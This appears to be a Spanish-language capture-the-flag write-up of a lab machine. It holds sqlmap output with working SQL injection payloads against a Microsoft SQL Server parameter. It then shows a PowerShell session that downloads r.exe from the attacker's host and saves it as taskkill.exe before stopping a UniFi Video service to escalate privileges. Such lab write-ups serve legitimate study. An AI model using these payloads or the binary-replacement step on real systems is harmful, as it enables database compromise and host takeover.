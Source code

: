 ```
[11:56:58] [WARNING] combined UNION/error-based SQL injection case found on column 4. sqlmap will try to find another column with better characteristics
[11:56:59] [WARNING] combined UNION/error-based SQL injection case found on column 1. sqlmap will try to find another column with better characteristics
[11:57:00] [WARNING] combined UNION/error-based SQL injection case found on column 20. sqlmap will try to find another column with better characteristics
GET parameter 'ProductSubCategoryId' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
sqlmap identified the following injection point(s) with a total of 75 HTTP(s) requests:
---
Parameter: ProductSubCategoryId (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: ProductSubCategoryId=18 AND 9242=9242

    Type: error-based
    Title: Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)
    Payload: ProductSubCategoryId=18 AND 6303 IN (SELECT (CHAR(113)+CHAR(113)+CHAR(113)+CHAR(112)+CHAR(113)+(SELECT (CASE WHEN (6303=6303) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(112)+CHAR(98)+CHAR(113)+CHAR(113)))

    Type: inline query
    Title: Microsoft SQL Server/Sybase inline queries
    Payload: ProductSubCategoryId=(SELECT CHAR(113)+CHAR(113)+CHAR(113)+CHAR(112)+CHAR(113)+(SELECT (CASE WHEN (7727=7727) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(112)+CHAR(98)+CHAR(113)+CHAR(113))

    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries (comment)
    Payload: ProductSubCategoryId=18;WAITFOR DELAY '0:0:5'--

    Type: AND/OR time-based blind
    Title: Microsoft SQL Server/Sybase time-based blind (IF)
    Payload: ProductSubCategoryId=18 WAITFOR DELAY '0:0:5'
---
[11:57:43] [INFO] testing Microsoft SQL Server
[11:57:43] [INFO] confirming Microsoft SQL Server
[11:57:45] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 10 or 2016
web application technology: ASP.NET 4.0.30319, ASP.NET, Microsoft IIS 10.0
back-end DBMS: Microsoft SQL Server 2016
[11:57:45] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 49 times
[11:57:45] [INFO] fetched data logged to text files under '/home/xbytemx/.sqlmap/output/10.10.10.104'

[*] ending @ 11:57:45 /2019-02-15/
```

El resumen es parámetro ProductSubCategoryId es susceptible a SQLi, la DB es Microsoft SQL Server 2016, y tenemos bastantes puntos de inyección como se ve en la parte superior.


[10.10.10.104]: PS C:\Users\Stacy\Documents> ls
[10.10.10.104]: PS C:\Users\Stacy> cd c:\programdata\unifi-video\
[10.10.10.104]: PS C:\programdata\unifi-video> dir
[10.10.10.104]: PS C:\programdata\unifi-video> cat .\data\system.properties
[10.10.10.104]: PS C:\programdata\unifi-video> Get-ChildItem -recurse HKLM:\SYSTEM\CurrentControlSet\Services | findstr -i "unifi"
[10.10.10.104]: PS C:\programdata\unifi-video>
[10.10.10.104]: PS C:\programdata\unifi-video> wget http://10.10.13.121:4001/r.exe -O taskkill.exe
[10.10.10.104]: PS C:\programdata\unifi-video> stop-service UniFiVideoService
